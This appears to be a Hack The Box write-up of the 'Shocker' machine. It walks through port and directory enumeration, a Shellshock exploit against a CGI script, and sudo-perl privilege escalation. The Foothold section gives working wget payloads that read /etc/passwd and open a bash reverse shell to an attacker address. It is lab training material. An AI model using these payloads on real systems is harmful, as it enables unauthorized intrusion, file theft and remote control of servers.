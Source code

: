 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Shocker/logo.png
date: 2023-02-04 09:45:47+07:00
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
modified: 2023-02-04 09:45:47+07:00
tags:
- Shellshock
- Shocker
- Hackthebox
- Writeup
title: Shocker
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock
exploit, which affected millions of public-facing servers.

### Difficulty:

`Easy`

# Enumeration

At first, I did a Nmap scan for open ports and services.

`nmap -sC -sV -p- 10.10.1.235 -oG shocker`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.png)

|Ports|Service
|80| Apache httpd 2.4.18 ((Ubuntu))
|2222| OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

I visit the website But there is nothing interesting.

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I start enumerating websites using [FFUF]()

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/FUZZ" -ic`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.1.png)

I found [cgi-bin](). Next I did directory enumaration using common extention.

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/cgi-bin/FUZZ" -e .sh,.php,.html`

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I found [user.sh](). 

![](https://photos.squarezero.dev/file/abir-images/Shocker/3.png)

After opening the file I saw the file is executing in the webserver.

![](https://photos.squarezero.dev/file/abir-images/Shocker/03.png)

# Foothold

After looking for sometime I figureout this is a [shellshock]() vulnerability. 

I found the following artical useful. [Exploit](https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited)

Lets see if we can read `/etc/passwd`.

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/4.png)

After opening the file we can see the commands are being executed. 
![](https://photos.squarezero.dev/file/abir-images/Shocker/5.png)

So, I decided to use a bash reverseshell. And after execution I got a connection back.


`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.37/9000 0>&1" http://10.129.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/6.png)

![](https://photos.squarezero.dev/file/abir-images/Shocker/7.png)

# Privilege Escalation

I check what I can run as sudo. 

![](https://photos.squarezero.dev/file/abir-images/Shocker/8.png)

I can run [perl](). I checked [GTFOBins](https://gtfobins.github.io/) and used following to get root access.



`sudo perl -e 'exec "/bin/bash";'`

![](https://photos.squarezero.dev/file/abir-images/Shocker/9.png)
